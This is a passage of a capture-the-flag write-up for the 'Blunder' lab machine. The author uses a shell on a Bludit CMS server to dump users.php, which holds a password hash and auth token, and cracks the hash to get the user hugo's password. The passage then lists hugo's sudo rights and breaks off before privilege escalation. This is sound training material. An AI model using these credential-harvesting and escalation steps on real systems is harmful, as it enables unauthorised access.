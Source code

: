 ![www-data](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/metasploit.png)

Using the shell I just grabbed from the exploit I started to look for possible interesting paths on the machine.

There seems to be a newer version of Bludit (**3.10**) already installed on the machine but not yet set up on the blog.

Navigating on it I grabbed a very useful hash from **users.php**

```php
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

## User Escalation

Hugo, the user which the hash corresponds to, appears to be a system user as well.

Using [https://md5decrypt.net/](https://md5decrypt.net/) I was able to crack the hash : **faca404fd5c0a31cf1897b823c695c85cffeb98d : Password120**

![user](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/user.png)

With a user shell already , I can easily grab the user flag under home folder.

## Upgrading Privileges

I quickly began to do the usual enumeration to find more information on how to grab root access.

### sudo
```sh
hugo@blunder:~$ sudo -l 
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$
```
